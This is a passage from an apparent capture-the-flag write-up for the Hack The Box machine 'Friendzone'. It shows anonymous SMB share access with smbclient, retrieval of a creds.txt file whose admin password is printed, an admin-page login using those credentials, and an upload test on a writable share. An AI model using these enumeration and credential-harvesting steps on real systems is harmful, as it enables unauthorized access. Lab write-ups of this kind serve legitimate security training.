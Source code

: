 ```
	IPC$                                              	NO ACCESS

```
Using smbclient to connect to general to start:
```
root@kali: smbclient \\\\10.10.10.123\\general           
Enter WORKGROUP\root's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Jan 17 07:10:51 2019
  ..                                  D        0  Thu Jan 24 08:51:02 2019
  creds.txt                           N       57  Wed Oct 10 10:52:42 2018

		9221460 blocks of size 1024. 6453020 blocks available
smb: \> get creds.txt
getting file \creds.txt of size 57 as creds.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
```

Looking at the contents of the file:
```
root@kali: cat creds.txt 
creds for the admin THING:
admin:WORKWORKHhallelujah@#
```

Heading over to our admin page, we use these credentials and get in:

![253984797.png]({{site.baseurl}}/Images/Friendzone/253984797.png)


We are told to head over to dashboard.php, (our gobuster also found this but we couldn’t access it without creds)

Before we go too far into the website we access the other smd share to see if we do actually have read/write access:
```
root@kali: smbclient \\\\10.10.10.123\\Development
Enter WORKGROUP\root's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Fri Jul 12 19:38:45 2019
  ..                                  D        0  Thu Jan 24 08:51:02 2019

		9221460 blocks of size 1024. 6416492 blocks available
smb: \> put nmap
putting file nmap as \nmap (44.1 kb/s) (average 44.1 kb/s)
smb: \> dir
  .                                   D        0  Fri Jul 12 20:05:56 2019
  ..                                  D        0  Thu Jan 24 08:51:02 2019
  nmap                                A   106279  Fri Jul 12 20:05:58 2019

		9221460 blocks of size 1024. 6412192 blocks available
smb: \> 

```
Nice! I am sure this will come in handy later on.
